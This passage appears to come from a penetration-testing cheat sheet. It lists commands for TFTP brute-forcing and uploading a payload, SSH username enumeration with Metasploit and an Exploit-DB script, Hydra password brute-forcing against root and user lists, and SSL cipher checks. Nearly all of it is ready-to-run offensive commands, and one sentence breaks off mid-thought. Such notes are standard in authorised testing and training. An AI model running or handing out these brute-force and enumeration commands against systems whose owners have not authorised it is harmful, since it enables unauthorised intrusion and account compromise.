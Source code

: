 or

```
use auxiliary/scanner/tftp/tftpbrute
```

`connecting/interacting: tftp $ip tftp> put payload.exe tftp> get file.txt`

## SSH

#### User enumeration

```
use auxiliary/scanner/ssh/ssh_enumusers
set user_file /usr/share/wordlists/metasploit/unix_users.txt
or
set user_file /usr/share/seclists/Usernames/Names/names.txt
run
```

```
python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $ip
```

If you see the following message, it likely means that scp

```
PTY allocation request failed on channel 0
```

#### Bruteforce

```
hydra -v -V -l root -P password-file.txt $ip ssh
```

#### With list of users:

```
hydra -v -V -L user.txt -P /usr/share/wordlists/rockyou.txt -t 16 192.168.33.251 ssh
```

* You can use **-w** to slow down

## SSL

#### Open a connection

```
openssl s_client -connect $ip:443
```

#### Basic SSL ciphers check

```
nmap --script ssl-enum-ciphers -p 443 $ip
```
